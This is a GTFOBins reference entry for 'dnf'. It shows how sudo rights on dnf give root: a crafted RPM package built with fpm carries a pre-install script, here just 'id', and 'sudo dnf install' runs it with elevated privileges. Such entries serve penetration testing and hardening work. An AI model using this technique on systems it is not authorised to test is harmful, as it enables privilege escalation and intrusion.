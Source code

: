 # GTFOBin: dnf

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

It runs commands using a specially crafted RPM package. Generate it with fpm and upload it to the target.

```
TF=$(mktemp -d)
echo 'id' > $TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF

```

```
sudo dnf install -y x-1.0-1.noarch.rpm
```